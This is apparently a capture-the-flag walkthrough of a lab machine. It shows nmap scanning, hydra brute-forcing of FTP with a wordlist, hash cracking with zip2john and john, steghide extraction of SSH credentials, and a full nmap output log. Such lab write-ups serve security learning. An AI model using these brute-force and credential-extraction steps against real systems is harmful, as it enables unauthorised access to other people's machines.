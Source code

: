 1. Task 2 Enumerate, as always, start by scanning the machine, I used `nmap -vv -A <ip>`. We can see ports 21, 22 and 80, so most likely we have a web server running, let’s confirm this.
2. Visithttp://&lt;ip&gt; to get the next clue, change the user-agent by going to Inspect (DevTools) &gt; Customise and control DevTools &gt; More Tools &gt; Network conditions, User agent. Here you can change the user-agent by disabling/unchecking Use browser default. Reload the page, and you’re done!
3. Task 3 Hash cracking and brute-force. Now that leads us back to port 21, ftp, so now armed with a username, let’s use brute force. Use hydra -t 32 -l \*\*\*\*\* -P /usr/share/wordlists/rockyou.txt -vV &lt;ip&gt; ftp against the target and you’ll be able to find the password, so then log in using ftp &lt;ip&gt;, and mget \* to copy all the files.
4. It’s time to examine what we’ve found, run file \* to show some basic info, but use binwalk to show hidden info within the files. Then binwalk -e cutie.png to pull out the data, again running file \* will help here with new files. Use zip2john 8702.zip &gt; 8702.hashes to extract the hash, then john 8702.hashes to crack it.
5. The new text file provides a cryptic message, we can decode this using echo \*\*\*\*\*\*\*\* | base64 -d. That’s the steg password, use `steghide extract -sf cute-alien.jpg -p ******` to gain SSH creds, then `ssh *****@<ip>`. Next up, Task 4 Capture the user flag.
6. Now copy the files over via `scp -r * *****@<ip>: .`, use a bit of OSINT and find the CVE. For more, use my notes below or hints above for help, enjoy!

## Notes

nmap: `nmap -vv -A <ip>`

```
<pre class="wp-block-code">```
Completed NSE at 02:52, 0.00s elapsed
Nmap scan report for 10.10.253.182
Host is up, received conn-refused (0.32s latency).
Scanned at 2022-07-06 02:51:25 EDT for 42s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 42.85 seconds

```
```

```